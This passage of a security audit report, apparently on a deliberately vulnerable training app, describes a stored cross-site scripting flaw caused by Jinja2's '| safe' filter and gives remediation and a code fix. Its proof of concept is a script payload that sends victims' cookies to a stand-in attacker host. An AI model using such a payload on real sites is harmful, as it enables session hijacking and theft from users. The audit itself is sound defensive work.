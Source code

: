
#### [VULN-002] - Cross-Site Scripting (XSS) in Posts

**Vulnerability ID**: VULN-002
**OWASP Category**: A03 - Injection
**Severity**: High
**Discovery Method**: Manual Code Review

**Description**:
The posts display functionality uses the `| safe` filter in Jinja2 templates, which disables automatic HTML escaping and allows stored XSS attacks through user-generated content.

**Affected Code**:
- **File**: `src/vulpy/bad/templates/posts.view.html`
- **Lines**: 23
- **Function**: Template rendering
- **Additional Locations**: Any template using `| safe` filter

**Attack Scenario**:
1. Attacker creates account and logs into application
2. Attacker posts content containing JavaScript: `<script>alert('XSS')</script>`
3. Malicious script is stored in database via libposts.post()
4. When other users view posts, script executes in their browsers
5. Attacker can steal session cookies, perform actions on behalf of users

**Proof of Concept**:
```html
Post content: <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

**Root Cause Analysis**:
- **Primary Cause**: Use of `| safe` filter disabling HTML escaping
- **Contributing Factors**: No input sanitization, no CSP implementation
- **Design Flaws**: Direct rendering of user content without validation

**Remediation Strategy**:
- **Immediate Actions**: Remove `| safe` filter from user content rendering
- **Short-term Fixes**: Implement Content Security Policy (CSP)
- **Long-term Solutions**: Input validation and output encoding framework
- **Prevention**: Template security review requirements

**Implementation Guidance**:
- **Code Changes**: 
```html
<!-- Replace: -->
<span class="w3-h3">{{ post.text | safe }}</span>
<!-- With: -->
<span class="w3-h3">{{ post.text }}</span>
```
- **Configuration**: Implement strict CSP headers
- **Testing**: XSS test cases for all user input fields

---

#### [VULN-003] - Insecure Session Management
